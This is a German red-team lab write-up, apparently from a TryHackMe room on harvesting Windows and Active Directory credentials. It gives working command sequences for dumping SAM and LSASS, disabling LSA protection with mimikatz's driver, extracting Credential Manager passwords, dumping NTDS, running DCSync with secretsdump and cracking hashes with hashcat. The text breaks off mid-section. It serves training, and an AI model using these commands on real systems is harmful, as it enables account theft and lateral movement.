




# Introduction

### Welcome to Credentials Harvesting

Hier gehen wir mal durch, wie wir als Red Teamer Credentials erhalten, wiederverwenden oder fälschen werden.

Credential Harvesting bezieht sich auf das besorgen von Credentials wie Login informationen, Account Namen und Passwörter. Es ist eine Technik zum exfiltrieren von Credentials aus ganz unterschiedlichen Orten in einem System wie Clear-Text-Files, Registrys oder Memory Dumps etc.

Legemetierte Credentials zu bekommen hat immer Vorteile wie:

- Zugang zu anderen Systemen (Lateral Movement)
- Es wird schwerer uns zu entdecken
- Wir haben die Möglichkeit zur Erstellung und Pflege von Accounts, die uns helfen unsere Ziele als Red Teamner zu erreichen.

### Lernziele

- Verstehen der Methode zum extrahieren von Credentials auf lokalen Windows Maschinen
- Erlernen wie man Zugang zur Windows Memory bekommt und Clear-Text Passwörter und Authenzifizierungstickets dumpt, lokal als auch remote.
- Einführung in den Windows Credential Manager und wie man Credentials aus diesem extrahiert
- Erlernen von Methoden wie man Credentials für einen Domain Controller extrahiert
- Erkundung des Local Administrator Password Solution (LAPS) Feature
- Einführung in AD Attacken die zur Beschaffung von AD Credentials dienen

# Credentials Harvesting

### Credentials Harvesting

Credentials Harvesting ist ein Begriff für den Zugriff auf Benutzer- und Systemanmeldeinformationen. Dabei handelt es sich um eine Technik zum Suchen oder Stehlen gespeicherter Anmeldeinformationen, einschließlich Netzwerk-Sniffing, bei der ein Angreifer übermittelte Anmeldeinformationen erfasst.

In welchen Formen lassen sich Credentials finden?

- Account Details (usernames und passwords)
- Hashes wie bspw. NTLM Hashes
- Authentication Tickets wie TGT oder TGS
- Alle Informationen die dabei helfen, sich Zugang zu einem System zu beschaffen (private Keys etc.)

Allgemein gesagt gibt es zwei Arten von Credential Harvesting, einmal Extern und einmal Intern. Bei Extern handelt es sich in der Regel um Phishing Attacken die einen Benutzer dazu bringen sollen, seine Zugangsdaten preis zu geben. Beim internen Credential Harvesting gibt es verschiedene Ansätze auf die wir jetzt weiter eingehen.

# Credential Access

### Clear-text files

Angreifer können einen kompromittierten Computer nach Anmeldeinformationen in lokalen oder Remote-Dateisystemen durchsuchen. Klartextdateien können vertrauliche Informationen enthalten, die von einem Benutzer erstellt wurden und Passwörter, private Schlüssel usw. enthalten. Das MITRE ATT&CK-Framework definiert sie als Unsecured Credentials: Credentials In Files [T1552.001](https://attack.mitre.org/techniques/T1552/001/).

Clear-Text Files die interessant sein könnten:

    - Commands history
    - Configuration files (Web App, FTP files, etc.)
    - Other Files related to Windows Applications (Internet Browsers, Email Clients, etc.)
    - Backup files
    - Shared files and folders
    - Registry
    - Source code 

Für den ersten Punkt können wir als Besipiel ***C:\Users\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt*** nehmen.
Hier werden alle Powershell Commands eines Benutzers gespeichert.
Es lohnt sich hier immer mal reinzuschauen und zu sehen, woran der User gerade arbeitet. 

Ein weiterer Befehl wäre vielleicht auch folgender:

```bash
c:\Users\user> reg query HKLM /f password /t REG_SZ /s
#OR
C:\Users\user> reg query HKCU /f password /t REG_SZ /s
```

Damit durchsuchen wir die Windows Registry nach dem Keyword "password"

### Database Files

Anwendungen nutzen Datenbankdateien, um Einstellungen, Konfigurationen oder Anmeldeinformationen zu lesen oder zu schreiben. Datenbankdateien werden in Windows-Betriebssystemen normalerweise lokal gespeichert. Diese Dateien sind ein hervorragendes Ziel für die Überprüfung und Suche nach Anmeldeinformationen. Weitere Informationen finden Sie im THM-Raum: Breaching AD. Es enthält ein Paradebeispiel für das Extrahieren von Anmeldeinformationen aus der lokalen McAfee Endpoint-Datenbankdatei.


### Password Manager

Password Manager speichern Login Informationen für unterschiedliche Anwendungen. Damit muss ein Password Manager äußerst sicher sein. 
Windows hat einen eingebauten Password Manager, es gibt aber auch 3rd Party Anwendungen wie bspw. Keepass, LastPass etc.

Falsche Konfigurationen oder Sicherheitslücken könnten zu Datenlecks führen. Aber auch mit verschiedenen Tools könnte man Anwendungen angreifen, die einen Password Manager nutzen.

### Memory Dump

Der Speicher ist ein wunderbare Quelle um an sensitive Daten zu kommen, denn diese werden während der Laufzeit oder Ausführung in diesen geladen. Administratoren können auf diesen Speicher zugreifen. Was finden wir unter anderem im Speicher?

- Clear-Text Credentials
- Cached Passwörter
- AD Tickets

### Active Directory

Active Directory ist aufgrund von häufigen Fehlkonfigurationen häufig Ziel von Red Teaming Attacken. Darunter fallen bspw.:

- Users Description
Admins schreiben Credentials gerne mal in die Beschreibung für neuen Mitarbeiter und lasses es dann so. 
- Group Policy SYSVOL
geleakte Verschlüsselungskeys führen zu administrativen Zugängen.
- NTDS
Enthält AD User Credentials
- AD Attacks
Fehlkonfigurationen allgemein führen zu Schwachstellen.

### Network Sniffing

Ein erster Zugang verhilft einem Angreifer unterschiedliche Netzwerkattacken zu starten gegen lokale Computer sowie der AD Umgebung. Die Man-in-the-Middle Attacke gegen Netzwerkprotokolle erstellt eine schädliche Quelle mit der sich die Geräte in einem Netzwerk verbinden möchten und dabei sensitive Daten preisgeben wie bspw. NTLM Hashes.

# Local Windows Credentials

Ganz grundlegend stellt Windows zwei Arten von Benutzerkonten zur Verfügung, lokale sowie Domainaccounts. Lokale Userdaten werden lokal auf dem jeweiligen Gerät gespeichert, Domain User Daten werden im Active Directory gespeichert. In dieser Aufgabe geht es um die lokalen Accounts.

### Keystrokes

Ein Keylogger ist ein Programm oder eine Hardware die Keyboard Eingaben überwacht und loggt. In einem Red Team Einsatz können wir mit bspw. dem Metasploit Framework sensitive Daten über einen Keylogger abgreifen. 
Das haben wir bereits im Exploiting AD Room gemacht.

### Security Account Manager (SAM)

Der SAM ist eine eine lokale Windows Datenbank die Benutzerdaten wie Usernames und Passwörter speichert. Die Daten werden darin verschlüsselt gespeichert. Ausserdem ist es eigentlich nicht möglich, das irgendein Benutzer auf diese Datenbank zugreift oder ausliest, während das Betriebssystem läuft. Aber es gibt natürlich gewisse Wege, den Inhalt der Datenbank zu dumpen.

Dazu überprüfen wir mal, ob wir die SAM auslesen können:

>type c:\windows\system32\config\sam

```bash
C:\Windows\system32>type c:\Windows\System32\config\sam
type c:\Windows\System32\config\sam
The process cannot access the file because it is being used by another process.

C:\Windows\System32> copy c:\Windows\System32\config\sam C:\Users\Administrator\Desktop\ 
copy c:\Windows\System32\config\sam C:\Users\Administrator\Desktop\
The process cannot access the file because it is being used by another process.
        0 file(s) copied.
        
```

### Metasploit's HashDump

Die erste Methode zum Auslesen der SAM Datei ist der Hashdump, den das Metasploit-Framework bereitstellt. Dazu nutzt in-memory Code Injection in den LSASS.exe Prozess. 

```bash
meterpreter > getuid
Server username: THM\Administrator
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:98d3b784d80d18385cea5ab3aa2a4261:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ec44ddf5ae100b898e9edab74811430d:::
CREDS-HARVESTIN$:1008:aad3b435b51404eeaad3b435b51404ee:443e64439a4b7fe780db47fc06a3342d:::
```

### Volume Shadow Copy Service

Ein weiterer Ansatz ist der Microsoft Volume Shadow Copy Service, der dazu dient eine Volume-Sicherung durchzuführen, während Anwendungen auf Volumes lesen/schreiben. Hier gibt es weiterführende Informationen. [Windows Doku](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service)

Im Detail werden wir WMIC dazu nutzen eine Shadow Volume Kopie zu erstellen. Das machen wir über die Befehlszeile mit Adminrechten folgendermaßen:

1. Starten von cmd.exe mit Admin-Rechten
2. Ausführen des WMIC Befehls um eine Shadow-Kopie von c:\ zu erstellen
3. Überprüfen ob Schritt 2 erfolgreich war
4. Die SAM Datei aus dem neu erstellten Volume kopieren

```bash
C:\Users\Administrator>wmic shadowcopy call create Volume='C:\'
Executing (Win32_ShadowCopy)->create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ReturnValue = 0;
        ShadowID = "{D8A11619-474F-40AE-A5A0-C2FAA1D78B85}";
};
```

Anschließend überprüfen wir mit VSSADMIN ob die Shadow-Kopie erfolgreich erstellt wurde

```bash
C:\Users\Administrator>vssadmin list shadows
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Contents of shadow copy set ID: {0c404084-8ace-4cb8-a7ed-7d7ec659bb5f}
   Contained 1 shadow copies at creation time: 5/31/2022 1:45:05 PM
      Shadow Copy ID: {d8a11619-474f-40ae-a5a0-c2faa1d78b85}
         Original Volume: (C:)\\?\Volume{19127295-0000-0000-0000-100000000000}\
         Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
         Originating Machine: Creds-Harvesting-AD.thm.red
         Service Machine: Creds-Harvesting-AD.thm.red
         Provider: 'Microsoft Software Shadow Copy provider 1.0'
         Type: ClientAccessible
         Attributes: Persistent, Client-accessible, No auto release, No writers, Differential
```

Wir sehen, dass eine Kopie unter ***\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1*** abgespeichert wurde.

Wie bereits erwähnt sind die Daten in der SAM Datei verschlüsselt. Wir müssen uns also auch den Schlüssel für die SAM Datei kopieren um an die Daten zu kommen. Der Schlüssel befindet sich im gleichen Ordner und heißt "system".

```bash
C:\Users\Administrator>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\thm\Desktop\sam
        1 file(s) copied.

C:\Users\Administrator>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system
        1 file(s) copied.
```


### Registry Hives

Eine weitere Möglichkeit um die SAM Datenbank zu dumpen geht über die Windows Registry. Windows Reg speichert nämlich auch einige Kopien aus der SAM Datenbank um sie entsprechenden Services anbieten zu können. Mit reg.exe können wir Werte der Windows Reg speichern. Wie bereits erwähnt brauchen wir zwei Files um die SAM Datenbank zu dumpen:

```hash
C:\Users\Administrator\Desktop>reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
The operation completed successfully.

C:\Users\Administrator\Desktop>reg save HKLM\system C:\users\Administrator\Desktop\system-reg
The operation completed successfully.

C:\Users\Administrator\Desktop>
```

Wenn wir diese Dateien wieder mit impacket-secretsdump öffnen, erhalten wir wieder die entsprechenden Hashes.
Wir können die Hashes jetzt entweder cracken oder sie zur Authentifizierung nutzen.

# Local Security Authority Subsystem Service (LSASS).

### What is the LSASS?

Der Local Security Authority Server Service (LSASS) ist ein Windows-Prozess, der die Sicherheitsrichtlinie des Betriebssystems verwaltet und auf einem System durchsetzt.
Das Windows-System speichert Anmeldeinformationen im LSASS-Prozess, um Benutzern den Zugriff auf Netzwerkressourcen wie Dateifreigaben, SharePoint-Sites und andere Netzwerkdienste zu ermöglichen, ohne jedes Mal Anmeldeinformationen eingeben zu müssen, wenn ein Benutzer eine Verbindung herstellt.

Wenn wir über Administratorrechte verfügen, können wir den Prozessspeicher von LSASS speichern. Das Windows-System ermöglicht es uns, eine Dump-Datei zu erstellen, also eine Momentaufnahme eines bestimmten Prozesses.  This attack is defined in the MITRE ATT&CK framework as "[OS Credential Dumping: LSASS Memory (T1003)](https://attack.mitre.org/techniques/T1003/001/)".


Wir können lsass über den Task Manager dumpen, über die Kommandozeile mit Sysinternal oder auch Mimikatz.




```bash
c:\>c:\Tools\SysinternalsSuite\procdump.exe -accepteula -ma lsass.exe c:\Tools\Mimikatz\lsass_dump

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[09:09:33] Dump 1 initiated: c:\Tools\Mimikatz\lsass_dump-1.dmp
[09:09:33] Dump 1 writing: Estimated dump file size is 162 MB.
[09:09:34] Dump 1 complete: 163 MB written in 0.4 seconds
[09:09:34] Dump count reached.
```


```hash
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 515377 (00000000:0007dd31)
Session           : RemoteInteractive from 3
User Name         : Administrator
Domain            : THM
Logon Server      : CREDS-HARVESTIN
Logon Time        : 6/3/2022 8:30:44 AM
SID               : S-1-5-21-1966530601-3185510712-10604624-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : THM
         * NTLM     : 98d3a787a80d08385cea7fb4aa2a4261
         * SHA1     : 64a137cb8178b7700e6cffa387f4240043192e72
         * DPAPI    : bc355c6ce366fdd4fd91b54260f9cf70
...
```

***Sollte das nicht funktionieren (und das wird es nicht) müssen wir den LSASS Schutz deaktivieren***

2012 hat Microsoft einen Schutz eingebaut, der es nicht mehr erlaubt auf LSASS zuzugreifen. Um die LSASS protection zu aktivieren, können wir die registry barbeiten und den RunAsPPL DWORD Wert in HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa auf 1 setzen.

Wenn wir mit Mimikatz LSASS dumpen wollen, kriegen wir einen Error:

```bash
mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```

Es handelt sich hierbei um einen AccessDenied Fehler. Mimikatz stellt allerdings einen mimidrv.sys Treiber bereit, der auf Kernel Level funktioniert und für uns die LSA Protection deaktiviert.
Wir importieren diesen Treiber mit "!+"

```bash
mimikatz # !+
[*] 'mimidrv' service not present
[+] 'mimidrv' service successfully registered
[+] 'mimidrv' service ACL to everyone
[+] 'mimidrv' service started
```

Ist der Treiber geladen, deaktivieren wir LSA Protection mit folgenden Befehl:

```bash
mimikatz # !processprotect /process:lsass.exe /remove
Process : lsass.exe
PID 528 -> 00/00 [0-0-0]
```
Wir führen 
>sekurlsa::logonpasswords 

nochmal aus und erhalten den DUMP.

# Windows Credential Manager

Jetzt geht es um den Windows Credential Manager und wir aus diesem System Credentials dumpen können.

### What is Credentials Manager?

Beim Credential Manager handelt es sich um ein Windows Feature das Login-Sensitive Informationen speichert für Webseiten, Anwendungen und Netzwerke. Er enthält Credentials wie Usernames, Passwörter und Internet Adressen. Es gibt vier Credential Kategoerien:

- Web Credentials beinhaltet Authentication Details die im Internet Browser gespeichert sind
- Windows Credentials enthalten Windows Authentication Details wie bspw. NTLM oder Kerberos
- Generelle Credentials enthalten grundlegende Details wie clear-text Usernames und Passwörter
- Certificate-basierte Credentials

Beachte das die authentication Details im Benutzer Ordner gespeichert sind und nicht über andere Windows Accounts geteilt wird. Aufjedenfall sind sie aber im Speicher abgelegt.

### Accessing Credential Manager

Wir können auf den Windows Credential Manager über die GUI aufrufen (Control Panel > User Accounts > Credential Manager) oder über die Kommandozeile. Wir konzentrieren uns mehr auf die Kommandozeile und das GUI nicht verfügbar ist.




Wir starten den Windows Credential Manager ***vaultcmd*** und schauen mal, welche Credentials gespeichert sind.

```bash
C:\Users\Administrator>vaultcmd /list
Currently loaded vaults:
        Vault: Web Credentials
        Vault Guid:4BF4C442-9B8A-41A0-B380-DD4A704DDB28
        Location: C:\Users\Administrator\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

        Vault: Windows Credentials
        Vault Guid:77BC582B-F0A6-4E15-4E80-61736B6F3B29
        Location: C:\Users\Administrator\AppData\Local\Microsoft\Vault
```

By Default hat Windows 2 Vaults, einer für Web Credentials und einer für Windows Credentials. Lass mal schauen ob sich etwas im Web Credentials Vault befindet:

```bash
C:\Users\Administrator>VaultCmd /listproperties:"Web Credentials"
Vault Properties: Web Credentials
Location: C:\Users\Administrator\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28
Number of credentials: 1
Current protection method: DPAPI
```
Der Output sagt uns, dass es einen Eintrag gibt. Lass uns tiefer gehen:

```bash
C:\Users\Administrator>VaultCmd /listcreds:"Web Credentials"
Credentials in vault: Web Credentials

Credential schema: Windows Web Password Credential
Resource: internal-app.thm.red
Identity: THMUser Saved By: MSEdge
Hidden: No
Roaming: Yes
```

### Credential Dumping

VaultCMD ist leider nicht in der Lage, das Password anzuzeigen, aber wir können ein PowerShell Script wie bspw. Get-WebCredentials.ps1 nutzen.

```bash
C:\Users\Administrator>powershell -ex bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator> Import-Module C:\Tools\Get-WebCredentials.ps1
PS C:\Users\Administrator> Get-WebCredentials

UserName  Resource             Password     Properties
--------  --------             --------     ----------
THMUser internal-app.thm.red Password! {[hidden, False], [applicationid, 00000000-0000-0000-0000-000000000000], [application, MSEdge]}
```

Damit haben wir schonmal ein Password für die interne Anwendung.

### RunAS

Eine alternative Methode um an gespeicherte Credentials zu kommen ist RunAs. Dieser Befehl erlaubt uns Windows Anwendungen oder Tools unter einem anderen User auszuführen. Das RunAs Tool hat unterschiedliche Kommando Argumente die in einem Windows System genutzt werden könnnen. Das ***/savecred*** Argument z.b. erlaubt uns die Credentials des Users im Windows Credentials Manager zu speichern. Wenn wir etwas beim nächsten mal als dieser User ausführen, wird RunAs nicht nach einem Passwort fragen.

Lass das mal jetzt auf die Windows Maschine anwenden. Ein anderer Weg Credentials zu speichern ist ***cmdkey***, ein Tool das Windows Credentials anzeigt, erstellt und löscht. Das ***/list*** Argument zeigt alle gespeicherten Creds an, oder wir können mit ***/list:computername*** die angezeigten Details mehr spezifizieren.

```bash
C:\Users\thm>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=thm\thm-local
    Type: Domain Password
    User: thm\thm-local
```

Der Output zeigt uns an, dass wir ein Domain Password als thm\thm-local User gespeichert haben. Beachte dasss die gespeicherten Creds auch für andere Server gültig sein könnten. Lass uns jetzt runas nutzen um eine Windows Application als thm-local User auszuführen.

```bash
C:\Users\thm>runas /savecred /user:THM.red\thm-local cmd.exe
Attempting to start cmd.exe as user "THM.red\thm-local" ...
```

Es öffnet sich eine neue Kommandozeile und mit whoami bestätigen wir, dass wir CMD.exe als der thm-local User geöffnet haben. 

### Mimikatz

Mit Mimikatz geht das ganze natürlich auch ganz easy. 

```bash
C:\Users\Administrator>c:\Tools\Mimikatz\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 May 19 2020 00:48:59
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::credman
```

# Domain Controller

### NTDS Domain Controller

New Technologie Directory Services NTDS ist die Datenbank, die alle Daten des Active Directories enthält inklusive Objekte, Attribute Credentials und so weiter. Die NTDS.DTS Datei besteht aus drei Tabellen:

- Schema Table: enthält die Typen von Objekten und deren Beziehungen
- Link Table: enthält die Attribute von Objekten und deren Werte
- Data Type: enthält User und Gruppen

NTDS befindet sich in C:\Windows\NTDS bei default und ist verschlüsselt, damit keine Daten herausgezogen werden können. Auf die NTDS.dit Datei bei einer laufenden Maschine zuzugreifen ist nicht erlaubt, da sie vom Active Directory genutzt und verschlossen ist. Es gibt alerdings Wege Zugang zu bekommen. Wir lernen wie wir eine Kopie der NTDS erstellen können mit NTDSUTIL und Diskshadow und letztendlich auch einen Dump erstellen. Es ist wichtig zu beachten, dass man zum entschlüsseln der NTDS Datei einen System Boot Key benötigt, damit man an die LSA isolierten Credentials kommt, die in dem SECURITY File System gespeichert sind. Daher müssen wir die Security Datei ebenfalls dumpen, die alle benötigten Dateien enthält, die wir zum entschlüsseln brauchen.

### NTDSUTIL

Ntdsutil ist ein Windows Tool um Active Directories zu managen und pflegen. Es kann ich verschiedenen Fällen eingesetzt werden:

- Gelöschte Objekte im AD widerherstellen
- Pflege des AD
- AD Snapshot Management
- Set Directory Service Restore Mode (DSRM) Admin Password

Für mehr Infos einfach die Microsoft Seite [besuchen](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc753343(v=ws.11))

### Local Dumping (No Credentials)

Das wird normalerweise gemacht wenn du keine Credentials besitzt, aber dennoch einen administrativen Zugang zum Domain Controller. Dafür werden wir Windows Tools nutzen um die NTDS Datei zu dumpen und sie Offline zu cracken. Als eine Bedingung brauchen wir aber nunmal den Admin Zugang.

Um den Inhalt der NTDS Datei zu dumpen benötigen wir folgende Dateien:

- C:\Windows\NTDS\ntds.dit
- C:\Windows\System32\config\SYSTEM
- C:\Windows\System32\config\SECURITY


mit folgendem One-Line können wir einfach die Dateien dumpen und im Temp Ordner ablegen:

```bash
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```

Wir laden uns die Datein auf unsere Maschine und extrahieren die Hashes:

```bash
user@machine$ impacket-secretsdump -security path/to/SECURITY -system path/to/SYSTEM -ntds path/to/ntds.dit local
```

### Remote Dumping (With Credentials)

Wir haben uns angeschaut, wie wir Hashes aus dem Speicher bekommen, ohne Credentials zu haben. Jetzt geht es darum wie wir System und Domain Controller Hashes dumpen die Credentials benötigen, wie z.b. Passwörter oder NTLM Hashes. Wir brauchen außerdem Credentials für User mit administrativen Zugang zu einem Domain Controller oder spezielle Berechtigungen wie in der DCSync Sektion bereits erwähnt.

### DC Sync

Der DC Sync ist eine sehr beliebte attacke im Active Directory um Credentials remote zu dumpen. Die Attacke funktioniert wenn ein Account oder AD Admin Account kompromettiert wurde der folgende Berechtigungen hat:

- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes in Filtered Set

Ein Angreifer nutzt diese Konfig aus um eine Domain Replikation durchzuführen, die auch DC Sync genannt wird, oder Domain Controller Sync. 

Wir können Mimikatz für die DC Sync Attacke nutzen wie schon im Persisting AD Room, aber hier nutzen wir SecretsDump von Impacket:

```bash
user@machine$ python3.9 /opt/impacket/examples/secretsdump.py -just-dc THM.red/<AD_Admin_User>@10.10.45.102 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:[****REMOVED****]:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:[****REMOVED****]:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:[****REMOVED****]:::
thm.red\thm:1114:aad3b435b51404eeaad3b435b51404ee:[****REMOVED****]:::
```

Let's explain the command a bit more.

- the -just-dc argument is for extracting the NTDS data.
- the thm.red/AD_Admin_User is the authenticated domain user in the form of (domain/user).

Wir können auch nur die NTLM Hashes dumpen wenn wir einfach dem Argument ***-just-dc*** ein -ntlm anhängen.

```bash
user@machine$ python3.9 /opt/impacket/examples/secretsdump.py -just-dc-ntlm THM.red/<AD_Admin_User>@10.10.45.102
```

Wir können jetzt diese Hashwerte nehmen und uns als andere User ausgeben oder auch auf unserer Maschine mit Hashcat cracken.

```bash
user@machine$ hashcat -m 1000 -a 0 /path/to/ntlm_hashes.txt /path/to/wordlist/such/as/rockyou.txt
```

Anmerkung: 

Um nur den System Boot Key Value zu bekommen müssen wir folgendes ausführen:

>impacket-secretsdump -system System

# Local Administrator Password Solution (LAPS)

Jetzt schauen wir uns an, wie wir lokale Admin Passwörter ergattern können, wenn im AD das LAPS Feature aktiviert ist.

### Group Policy Preferences (GPP)

Eine Windows Installation hat einen built-in Admin Account der mit einem Paswort zugänglich ist. Passwörter in einem riesigen Windows Netzwerk zu ändern kann schon etwas herausfordernd sein.
Dafür hat Microsoft eine Methode eingeführt mit der man Lokale Admin Passwörter von Workstations einfach über Group Policy Preferences ändern kann.

GPP ist ein Tool das Administratoren erlaubt Domain Policies mit eingebetteten Credentials zu erstellen. Wenn GPP ausgeführt wurde, wurden verchiedene XML Dateien im SYSVOL Ordner erstellt. SYSVOL ist ein zentrales Element im AD und wird von allen Domain Users mit Leserechten genutzt. 

Das Problem war, dass die GPP relevanten XML Dateien ein Password mit einer AES256 Verschlüsselung beinhalteten. Zu dieser Zeit war das auch noch in Ordnung und nicht knackbar. Jedoch veröffentliche Microsoft irgendie die Privaten Schlüssel und da die User den Inhalt von SYSVOL lesen konnten, war es relativ einfach, dass Passwort zu entschlüsseln. Ein Tool zum cracken des Passworts ist [Get-GPPPassword](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)

### Local Administrator Password Solution (LAPS)

Im Jahr 2015 entfernte Microsoft das Speichern des Passworts im SYSVOL Ordner und stelle Local Administrator Password Solutions (LAPS) vor. Damit wurde ein Versuch unternommen, das verwalten der Loakl Admin Passwörter sicherer zu machen.

Die neue Methode beinhaltet zwei neue Attribute (ms-msc-AdmPwd und ms-msc-AdmPwdExpirationTime) in einem Objekt im Active Directory. Das ***mc-mcs-AdmPwd*** Attribut enthält ein clear-text Passwort des lokalen Admins, während das ***mc-mcs-AdmPwdExpirationTime*** Attribut das Ablaufdatum zum Resetten des Passworts enthält. LAPS nutzt ***admpwd.dll*** um das lokale Admin Password zu ändern und den Wert von ***mc-mcs-AdmPwd*** zu aktualisieren. 




### Enumerate for LAPS

Wir schauen uns erstmal an, ob LAPS auf dem System installiert ist, indem wir die ***admpwd.dll*** Datei suchen:

```bash
C:\Users\thm>dir "C:\Program Files\LAPS\CSE"
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Program Files\LAPS\CSE

06/06/2022  01:01 PM              .
06/06/2022  01:01 PM              ..
05/05/2021  07:04 AM           184,232 AdmPwd.dll
               1 File(s)        184,232 bytes
               2 Dir(s)  10,306,015,232 bytes free
```

LAPS scheint auf der Maschine zu sein. Sind cmdlets für ***AdmPwd*** verfügbar?

```bash
PS C:\Users\thm> Get-Command *AdmPwd*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS
```

Als nächstes müssen wir die AD OU finden, die das "All extended Rights" Attribut hat, das mit LAPS interagiert. Wir nutzen das "Find-AdmPwdExtendedRights" cmdlet um die richtige OU anzuzeigen.

```bash
